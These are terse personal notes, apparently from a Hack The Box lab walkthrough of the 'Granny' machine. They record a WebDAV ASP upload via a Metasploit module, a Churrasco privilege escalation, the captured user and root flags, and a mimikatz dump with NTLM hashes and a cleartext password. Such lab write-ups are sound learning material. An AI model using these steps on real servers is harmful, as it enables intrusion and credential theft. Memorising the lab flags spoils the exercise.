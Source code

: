 ## granny 10.10.10.15

Microsoft Windows 2003\|XP\|2008 \(91%\)

kun port 80

webdav her og?

fikk lastet opp asp fil.

~~netstat -anpt -v -n 10.10.12.238 4444~~

`use exploit/windows/iis/iis_webdav_upload_asp`

Windows .NET Server \(Build 3790, Service Pack 2\).

Architecture    : x86

whoami

nt authority\network service

username **lakis**

**server 2003 sp2 x86**

limited user called “Network Service”. This user has Read and Execute, but no Write access, and a very limited field of view to boot.

Administrator            ASPNET                   Guest

IUSR\_GRANPA              IWAM\_GRANPA              Lakis

SUPPORT\_388945a0

ingen vmic

icalcs ingen write permissions på network service

**cadaver 10.10.10.15**

put som .txt og move til .exe

last opp [https://github.com/Re4son/Churrasco](https://github.com/Re4son/Churrasco)

[http://carnal0wnage.attackresearch.com/2010/05/playing-with-ms09-012-windows-local.html](http://carnal0wnage.attackresearch.com/2010/05/playing-with-ms09-012-windows-local.html)

**msfvenom asp shell funket!**

c.exe -d cmd

C:\inetpub\wwwroot\c.exe -d c:\inetpub\wwwroot\sh.exe

type "c:\documents and settings\administrator\desktop\root.txt"

**aa4beed1c0584445ab463a6747bd06e9**

type "c:\documents and settings\lakis\desktop\user.txt"

**700c5dc163014e22b3e408f8703f67d1**





mimikatz \# sekurlsa::logonpasswords



Authentication Id : 0 ; 653470 \(00000000:0009f89e\)

Session           : NetworkCleartext from 0

User Name         : IUSR\_GRANPA

Domain            : GRANNY

Logon Server      : GRANNY

Logon Time        : 6/1/2017 3:37:04 PM

SID               : S-1-5-21-1709780765-3897210020-3926566182-1003

	msv :	

	 \[00000002\] Primary

	 \* Username : IUSR\_GRANPA

	 \* Domain   : GRANNY

	 \* LM       : a274b4532c9ca5cdf684351fab962e86

	 \* NTLM     : 6a981cb5e038b2d8b713743a50d89c88

	 \* SHA1     : 29001a81673bf268bc5c435d62209e0c2b27b1f9

	wdigest :	

	 \* Username : IUSR\_GRANPA

	 \* Domain   : GRANNY

	 \* Password : 1\_pEx9\[v6;e24}

	kerberos :	

	 \* Username : IUSR\_GRANPA

	 \* Domain   : GRANNY

	 \* Password : 1\_pEx9\[v6;e24}

	ssp :	

	credman :	



Authentication Id : 0 ; 996 \(00000000:000003e4\)

Session           : Service from 0

User Name         : NETWORK SERVICE

Domain            : NT AUTHORITY

Logon Server      : \(null\)

Logon Time        : 6/1/2017 11:35:55 AM

SID               : S-1-5-20

	msv :	

	 \[00000002\] Primary

	 \* Username : GRANNY$

	 \* Domain   : HTB

	 \* LM       : aad3b435b51404eeaad3b435b51404ee

	 \* NTLM     : 31d6cfe0d16ae931b73c59d7e0c089c0

	 \* SHA1     : da39a3ee5e6b4b0d3255bfef95601890afd80709

	wdigest :	



